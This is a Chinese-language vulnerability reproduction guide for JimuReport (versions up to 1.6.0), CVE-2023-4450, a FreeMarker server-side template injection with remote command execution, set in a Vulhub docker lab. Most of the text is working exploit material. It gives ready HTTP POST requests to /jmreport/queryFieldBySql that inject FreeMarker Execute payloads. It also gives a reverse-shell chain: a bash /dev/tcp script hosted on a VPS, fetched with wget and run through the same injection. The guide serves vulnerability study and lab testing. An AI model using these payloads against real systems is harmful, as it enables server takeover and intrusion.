 # JimuReport FreeMarker 服务端模板注入命令执行 CVE-2023-4450

## 漏洞描述

积木报表（JimuReport）是一个开源的数据可视化报表平台。在其1.6.0版本及以前，存在一个FreeMarker服务端模板注入（SSTI）漏洞，攻击者利用该漏洞可在服务器中执行任意命令。

参考链接：

- [https://github.com/advisories/GHSA-j8h5-8rrr-m6j9](https://github.com/advisories/GHSA-j8h5-8rrr-m6j9)
- [https://whoopsunix.com/docs/java/named%20module/](https://whoopsunix.com/docs/java/named%20module/)

## 漏洞影响

```
JimuReport version <= 1.6.0
```

## 环境搭建

Vulhub 执行如下命令启动一个JimuReport 1.6.0演示服务器：

```
docker compose up -d
```

等待一段时间后，访问`http://your-ip:8085`即可看到报表首页。

![](images/JimuReport%20FreeMarker%20服务端模板注入命令执行%20CVE-2023-4450/image-20240506112810381.png)

## 漏洞复现

发送如下请求，即可在服务端注入FreeMarker模板`<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}`：

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8085
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 100

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"id\")}'" }
```

可见，`id`命令已经成功被执行：

![](images/JimuReport%20FreeMarker%20服务端模板注入命令执行%20CVE-2023-4450/image-20240506114636787.png)

### 反弹shell

创建一个 `bs.sh` 并托管在 vps，内容如下：

```
/bin/bash -i >& /dev/tcp/<your-vps-ip>/8888 0>&1
```

发包，下载 `bs.sh` 并执行：

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8085

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"wget 127.0.0.1/bs.sh\")}'" }
```

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8085

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"bash bs.sh\")}'" }
```

vps 监听 8888 端口：

![](images/JimuReport%20FreeMarker%20服务端模板注入命令执行%20CVE-2023-4450/image-20240506115543868.png)
